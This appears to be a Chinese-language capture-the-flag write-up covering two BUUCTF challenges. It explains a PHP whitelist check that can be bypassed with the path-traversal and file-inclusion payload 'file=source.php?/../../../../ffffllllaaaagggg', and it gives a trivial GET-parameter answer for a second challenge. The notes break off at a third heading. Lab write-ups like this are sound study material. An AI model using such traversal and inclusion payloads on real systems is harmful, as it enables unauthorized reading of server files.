             $_page = urldecode($page); page 进行URL解码
            $_page = mb_substr(// page参数中 从 0 到 mb 提供 位置 进行截取
                $_page,
                0,
                mb_strpos($_page . '?', '?')// page参数后加一个？并找到第一个？的位置
            );
            if (in_array($_page, $whitelist)) {// page参数 在 whitelist 列表中存在
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }
    if (! empty($_REQUEST['file']) //判断 file 参数不为空
        && is_string($_REQUEST['file']) //判断 file 参数是字符串
        && emmm::checkFile($_REQUEST['file']) //进入 checkFile 函数判断
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?> 

构造payload：

>file=source.php?/../../../../ffffllllaaaagggg

*include函数有这么一个神奇的功能：以字符‘/’分隔（而且不计个数），若是在前面的字符串所代表的文件无法被PHP找到，则PHP会自动包含‘/’后面的文件——注意是最后一个‘/’*

## 靶场_3

[[极客大挑战 2019]Havefun1](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Havefun)

### 解题

查看源代码

![[屏幕截图 2022-07-28 205445.png]]

>
$ cat=$_GET['cat'];
echo $cat;
if($cat == 'dog'){
echo 'Syc{cat_cat_cat_cat}';
}  

构造playload:

>/?cat=dog

## 靶场_4
